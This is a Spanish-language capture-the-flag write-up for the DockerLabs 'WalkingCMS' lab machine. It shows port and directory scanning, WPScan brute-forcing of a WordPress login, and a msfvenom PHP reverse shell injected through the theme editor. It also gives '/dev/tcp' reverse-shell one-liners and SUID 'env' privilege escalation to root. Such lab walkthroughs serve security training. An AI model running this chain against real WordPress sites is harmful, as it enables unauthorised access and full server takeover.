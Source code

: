 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "WalkingCMS".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh walkingcms.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene un unico puerto abierto:
```
Discovered open port 80/tcp on 172.18.0.2
```
En este caso, empezaremos poniendo en el navegador esta IP y ver si en la pagina, existe alguna informacion "util".
Pero unicamente vemos una pagina de Apache2 normal.
Por lo tanto, vamos a probar a hacer un poco de FUZZING WEB a ver si hay suerte:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
El resultado de pasar GOBUSTER es:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]                                                                      
Progress: 143724 / 830576 (17.30%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 144102 / 830576 (17.35%)
===============================================================
Finished
===============================================================
```
Vemos que hay un Wordpress instalado, asi que vamos a ver si hay algun panel de login. No obstante, yo prefiero volver a usar GOBUSTER sobre el directorio "/wordpress":
```
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
Obteniendo lo siguiente:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]                                                                        
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]                                                           
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]                                                          
/wp-login.php         (Status: 200) [Size: 6580]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]                                                             
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]                                            
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
Tal y como se puede ver (aunque nos lo imaginaramos antes de usar GOBUSTER esta segunda vez), hay un "wp-login.php", por lo que iremos al navegador y entraremos en la direccion: "172.17.0.2/wordpress/wp-login.php". Aqui veremos un bonito panel de Login (logicamente) de Wordpress.
Es momento ahora de usar una herramienta especifica para intentar encontrar primero usuarios dentro de entornos CMS como este, que se llama WPSCAN. En la terminal podremos:
```
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
Y vemos que nos encuentra un usuario llamado "mario":
```
[i] User(s) Identified:

[+] mario  <==== Usuario detectado "mario"
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Perfecto. Ya tenemos el usuario, pero... ¿y la contraseña? Bien, para encontrarla, aunque hay otras herramientas, usaremos de nuevo WPSCAN ya que esta mas indicada para CMS's:
```
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```
Y nos encuentra la contraseña "love", como se puede ver a continuacion:
```
[!] Valid Combinations Found:
 | Username: mario, Password: love
```
**NOTA: Antes de continuar, hay que decir que al usar WPSCAN, se pone la ruta donde se encuentra el panel de Login PERO sin el "wp-login.php" (OJO CON ESTO !! ES MUY IMPORTANTE)**

Una vez encontrada la contraseña y aclarado lo anterior, pasamos a introducir las credenciales en el panel de login, lo que nos da acceso al panel de control de Wordpress del usuario "mario".
Bien, ahora nos interesaria inyectar codigo malicioso en ".php" pero no se observa ningun apartado donde poder subir algun archivo, por lo que otra alternativa es intentar inyectar el codigo malicioso directamente.
Lo primero que haremos sera abrir una terminal y  crear directamente el codigo malicioso con "msfvenom". Vamos a intentar obtener una reverse, por lo que usaremos:
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > reverseWalkingCMS.php
```
ya con el codigo malicioso creado, lo que haremos sera copiar al portapapeles TODO el contenido del archivo "reverseWalkingCMS.php".
Ahora nos dirigiremos de nuevo al navegador, y concretamente, al panel de control del usuario "mario", donde estabamos antes.
En este panel de control seleccionaremos en el menu de la izquierda la opcion "Apariencia", y dentro de ella, elegiremos donde pone "Theme Code Editor".
Perfecto, ahora es momento de inyectar nuestro codigo. Para ello, en la parte de la derecha, veremos un archivo que se llama "functions.php", por ejemplo.
Lo que haremos es simplemente abrir ese archivo y borrar todo su contenido, sustituyendolo por nuestro codigo malicioso.
Antes de continuar y grabar el archivo, abriremos DOS ventanas de la terminal:

	1) Una la pondremos a la escucha por el puerto 443 (el del codigo malicioso).
	2) La segunda, la pondremos a la escucha por el puerto 444, por ejemplo.
 
¿Y por que hacemos esto? Lo explico:
Cuando se hace un "payload" o codigo malicioso con "msfvenom" en PHP, normalmente al de unos segundos/minutos nos expulsa de la maquina, por lo que es conveniente siempre estabilizar esa conexion que obtenemos con el "payload".
La forma mas sencilla de estabilizarla es abrir una segunda terminal (como acabamos de hacer) e ir a la pagina "revshells.com".
En esta pagina, meteremos nuestra IP y el puerto que hemos elegido en la segunda terminal, es decir, el puerto al que queramos "redirigir" la conexion obtenida con el "payload".
Una vez hecho, en la parte de abajo, por defecto, nos proporcionara una reverse. En este caso en concreto:
```
sh -i >& /dev/tcp/172.17.0.1/444 0>&1
```
Esta reverse, sera la que meteremos luego en la primera terminal para estabilizar la conexion.
Bien, aclarado todo esto, volvemos al navegador y a nuestro panel de control de Wordpress.
Si recordadmos habiamos sustituido ya el codigo original de "functions.php" por nuestro "payload". Ahora ya solo tenemos que pinchar sobre el boton azul que pone "Update File" y esperar a que nos confirme Wordpress que se ha guardado correctamente.
En mi caso, simplemente con hacer esto ya me ha cogido directamente la conexion por el puerto 443, pero si vemos que no lo hace, iremos al navegador, pondremos la direccion "172.17.0.1/wordpress/" (por ejemplo) y ya deberia hacerlo.
Bien, ¿y ahora que? Pues como hemos dicho, hay que estabilizar la conexion antes de que nos "eche", por lo que introduciremos en ese primer terminal (el del puerto 443) el siguiente comando:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/444 0>&1"
```
Lo que nos mandara la "reverse" a nuestra segunda terminal (la del puerto 444) y asi tendremos la conexion estabilizada. Ahora ya podriamos cerrar la primera terminal ya que no la necesitamos mas.
Bien, volviendo a la segunda terminal y escribiendo "whoami" vemos lo siguiente:
```
$ whoami
www-data
$ 
```
Nos quedarian ya solo dos cositas por hacer: el tratamiento de la TTY y la escalada de privilegios.
Empezaremos por el tratamiento de la TTY. Para ello haremos lo siguiente:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Vale, finalizado el tratamiento de la TTY, pasaremos a la escalada de privilegios probando primero con el comando "sudo -l":
```
bash: sudo: command not found
```
Como se ve, no se puede continuar por ahi. Es momento ahora de probar otro tipo de escalada de privilegios con el comando: "find / -perm -4000 2>/dev/null":
```
find / -perm -4000 2>/dev/null

/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env
/usr/bin/newgrp
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Una vez obtenida la lista de binarios con permisos "SUID", iremos a la pagina de "gtfobins" y buscaremos cada uno de ellos para ver si podemos utilizarlos.
En este caso, el que funcionaria seria "/usr/bin/env", por lo que en "gtfobins" veremos que "env">SUID, nos presenta el siguiente codigo para hacer una reverse:
```
./env /bin/sh -p
```
No obstante, en nuestro caso pondremos la ruta COMPLETA:
```
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```
Finalmente vemos que hemos tenido acceso "root" en la maquina.
Como opcional, podriamos escribir el comando "bash -p" para obtener un prompt algo mas "normal", tal y como se ve abajo.
```
# bash -p
bash-5.2# whoami
root
bash-5.2#
```
